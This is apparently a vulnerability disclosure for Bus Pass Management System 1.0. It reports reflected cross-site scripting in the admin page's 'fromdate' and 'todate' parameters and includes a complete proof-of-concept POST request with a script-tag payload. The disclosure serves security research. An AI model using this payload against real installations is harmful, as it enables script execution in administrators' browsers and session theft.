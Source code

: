 # Bus_management
Bus Pass Management System Using PHP and MySQL 1.0

# Auditor:
Shouvik Dutta <a href="https://www.linkedin.com/in/shouvik-dutta/">@shouvik_dutta</a>

# Description: 
Cross-site Scripting detected in Bus Pass Management System Project 1.0

Admin Panel - Report of Pass Page is vulnerable to Cross-Site Scripting

The web application application includes improperly sanitized user input in the admin page specifically at `fromdate` & `todate` parameter at the /pass-bwdates-reports-details.php endpoint output it generates. This can lead to the execution of arbitrary scripts in the context of the victim's browser when they interact with a maliciously crafted link.

Vulnerable Endpoint - /pass-bwdates-reports-details.php
Vulnerable Parameter - `fromdate` & `todate`

# PoCs

Vulnerable URL: /admin/pass-bwdates-reports-details.php

POST Request

POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/pass-bwdates-report.php
Cookie: PHPSESSID=kful63rkjq5nk1ordm2tm9keg6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

fromdate=<script>alert(1)</script>&todate=1111-11-11&submit=
